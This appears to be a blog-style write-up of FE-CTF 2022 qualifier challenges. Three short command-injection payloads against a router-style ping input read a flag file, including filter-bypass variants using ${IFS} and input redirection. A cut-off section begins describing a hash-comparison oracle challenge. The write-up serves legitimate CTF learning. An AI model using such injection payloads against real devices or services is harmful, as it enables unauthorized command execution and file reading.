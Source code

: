 ```yaml
---
title: "FE-CTF (HackingFromEstonia): Finals and Quals Writeups"
date: 2022-11-28T21:49:35+01:00
description: "Writeups for FE-CTF 2022"
---
```


# Qualifiers - Dig1
A lot of older routers, have this thing in settings that allows your to ping routers. This input is 
usually just smacked directly into bash, and then executed. Knowing this, we can try command injection
with something as simple as:

```
127.0.0.1; cat /flag
```

`flag{do people still use php?}`

# Qualifiers - Dig2
This is the same type of challenge, except now we don't have spaces. Googling this issue:
https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces

Gives us a payload we can try
```
127.0.0.1;cat${IFS}/flag
```

`flag{who needs to sanitize input anyway?}`

# Qualifiers - Dig3
For the last one we cannot use dollar signs, so we try something else:

```
127.0.0.1;cat<flag
```

`flag{it's not bug, it's a feature}`

# Qualifiers - Hash Uppers Downers
I solved this challenge after the CTF with my friend Mikbrosim. 
We knew what to do, during the CTF - but we were playing from an airport, so we didn't have a lot of time.

We're given some source code, and a remote. Now upon sending a password to the remote, we're told
whether or not the value we sent, hashed, is less than the hash of the password stored on the server.

The charset of the password is as follows:
```c
unsigned char ALPHABET[] =
            "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
            "abcdefghijklmnopqrstuvwxyz"
            "0123456789";
```
This is 62 different characters. We know that there's atleast 5 characters in the password:
```c
assert(strlen(PASSWORD) <= 5);
```

